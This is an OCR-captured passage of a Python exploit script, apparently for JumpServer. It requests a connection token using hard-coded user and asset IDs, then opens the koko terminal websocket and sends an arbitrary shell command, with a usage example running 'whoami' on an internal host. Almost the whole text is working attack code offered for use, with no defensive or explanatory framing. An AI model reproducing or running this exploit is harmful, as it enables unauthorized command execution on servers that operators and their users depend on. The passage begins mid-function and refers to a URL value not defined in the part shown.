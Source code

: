         print("###############")

        print("exec cmd: ls")

        cmdtext = json.dumps({"id":  id, "type": "TERMINAL_DATA", "data":  cmd+"\r\n"})

        print(cmdtext)

        await send_msg(websocket, cmdtext)

        for i in range(20):

            recv_text = await  websocket.recv()

            print(f"{recv_text}")

        print('#######finish')

if __name__ == '__main__':

    try:

        import sys

        host=sys.argv[1]

        cmd=sys.argv[2]

        if host[-1]=='/':

            host=host[:-1]

        print(host)

        data = {"user":  "4320ce47-e0e0-4b86-adb1-675ca611ea0c", "asset":  "ccb9c6d7-6221-445e-9fcc-b30c95162825",

                "system_user":  "79655e4e-1741-46af-a793-fff394540a52"}

        print("##################")

        print("get token url:%s" %  (host + url,))

        print("##################")

        res = requests.post(host + url,  json=data)

        token = res.json()["token"]

        print("token:%s", (token,))

        print("##################")

        target = "ws://" +  host.replace("http://", '') +"/koko/ws/token/?target_id=" + token

        print("target ws:%s" %  (target,))

         asyncio.get_event_loop().run_until_complete(main_logic(cmd))

    except:

        print("python jumpserver.py  http://192.168.1.73 whoami")

 |

